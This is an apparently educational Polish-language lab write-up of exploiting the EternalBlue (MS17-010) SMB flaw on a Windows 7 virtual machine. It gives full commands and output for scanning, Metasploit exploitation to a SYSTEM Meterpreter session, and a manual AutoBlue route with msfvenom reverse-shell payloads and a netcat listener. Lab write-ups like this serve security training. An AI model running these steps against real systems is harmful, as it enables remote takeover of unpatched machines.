

# Zadanie 6 - Eternal Blue

## Odnalizenie maszyny
```shell
  Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                         
                                                                                                                                                       
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                       
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.179.1   00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                        
 192.168.179.2   00:50:56:fc:83:48      1      60  VMware, Inc.                                                                                        
 192.168.179.133 00:0c:29:6a:83:69      1      60  VMware, Inc.                                                                                        
 192.168.179.254 00:50:56:e2:82:dc      1      60  VMware, Inc.                                                      
```

## Skanowanie portów z rozszerzonymi informacjami
```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -T4 -sS -sV -sC -p $(cat blueports1.txt) 192.168.179.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-19 13:58 CET
Nmap scan report for 192.168.179.133
Host is up (0.00025s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:6A:83:69 (VMware)
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 000c296a8369 (VMware)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-19T12:59:37
|_  start_date: 2023-02-19T12:43:59
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-02-19T07:59:37-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.26 seconds
```

## Sprawdzenie czy system jest podatny na vuln-ms17-010
```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap --script=smb-vuln-ms17-010 192.168.179.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-19 14:11 CET
Nmap scan report for 192.168.179.133
Host is up (0.000053s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
MAC Address: 00:0C:29:6A:83:69 (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds

```

## Odanleznie skryptu
```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit eternal blue  
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                       | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                   | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                             | windows_x86-64/remote/42030.py
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## Łamanie z Metasploit
```shell
msfconsole
setg rhosts 192.168.179.133
setg lhost 192.168.179.129
search ms17-010
use 0

msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.179.129:4444 
[*] 192.168.179.133:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.179.133:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.179.133:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.179.133:445 - The target is vulnerable.
[*] 192.168.179.133:445 - Connecting to target for exploitation.
[+] 192.168.179.133:445 - Connection established for exploitation.
[+] 192.168.179.133:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.179.133:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.179.133:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.179.133:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.179.133:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.179.133:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.179.133:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.179.133:445 - Sending all but last fragment of exploit packet
[*] 192.168.179.133:445 - Starting non-paged pool grooming
[+] 192.168.179.133:445 - Sending SMBv2 buffers
[+] 192.168.179.133:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.179.133:445 - Sending final SMBv2 buffers.
[*] 192.168.179.133:445 - Sending last fragment of exploit packet!
[*] 192.168.179.133:445 - Receiving response from exploit packet
[+] 192.168.179.133:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.179.133:445 - Sending egg to corrupted connection.
[*] 192.168.179.133:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.179.133
[*] Meterpreter session 1 opened (192.168.179.129:4444 -> 192.168.179.133:49179) at 2023-02-19 14:27:42 +0100
[+] 192.168.179.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.179.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.179.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

Bez Metasploit

```shell
searchsploit -m windows/remote/42315.py 
  Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
    Codes: CVE-2017-0144
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/workspace/zadanie6/42315.py
```

```shell
┌──(kali㉿kali)-[~/workspace/zadanie6]
└─$ wget --no-check-certificate https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py 
--2023-02-19 14:57:26--  https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
WARNING: The certificate of ‘raw.githubusercontent.com’ is not trusted.
WARNING: The certificate of ‘raw.githubusercontent.com’ doesn't have a known issuer.
HTTP request sent, awaiting response... 200 OK
Length: 16669 (16K) [text/plain]
Saving to: ‘mysmb.py’

mysmb.py                               82%[============================================================>             ]  13.46K  --.-KB/s    in 0.004s  

2023-02-19 14:57:27 (2.93 MB/s) - Read error at byte 13780/16669 (Error in the pull function.). Retrying.

--2023-02-19 14:57:28--  (try: 2)  https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
WARNING: The certificate of ‘raw.githubusercontent.com’ is not trusted.
WARNING: The certificate of ‘raw.githubusercontent.com’ doesn't have a known issuer.
HTTP request sent, awaiting response... 307 Temporary Redirect
Location: https://172.16.16.16:8090/ips/block/webcat?cat=71&pl=1&url=aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dvcmF3aXQvTVMxNy0wMTAvbWFzdGVyL215c21iLnB5 [following]
--2023-02-19 14:57:28--  https://172.16.16.16:8090/ips/block/webcat?cat=71&pl=1&url=aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dvcmF3aXQvTVMxNy0wMTAvbWFzdGVyL215c21iLnB5
Connecting to 172.16.16.16:8090... connected.
WARNING: The certificate of ‘172.16.16.16’ is not trusted.
WARNING: The certificate of ‘172.16.16.16’ doesn't have a known issuer.
HTTP request sent, awaiting response... 403 Forbidden
2023-02-19 14:57:28 ERROR 403: Forbidden.
```

# Bez msfconsole
Klonujemy AutoBlue
```shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

cd ~/git/AutoBlue-MS17-010/shellcode
```

Przygotowujemy Payload
```shell
./shell_prep.sh

                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
192.168.179.129
LPORT you want x64 to listen on:
4444
LPORT you want x86 to listen on:
4444
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1

Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.179.129 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.179.129 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

Uruchamiamy w osobnym terminalach netcat listaner na porice 4444
```shell
nc -lvnp 4444
```
oraz w osobnym terminalu uruchamiany skrypt eternalblue_exploit7.py

```shell
cd /home/kali/git/AutoBlue-MS17-010
python eternalblue_exploit7.py 192.168.179.133 shellcode/sc_x64.bin
```


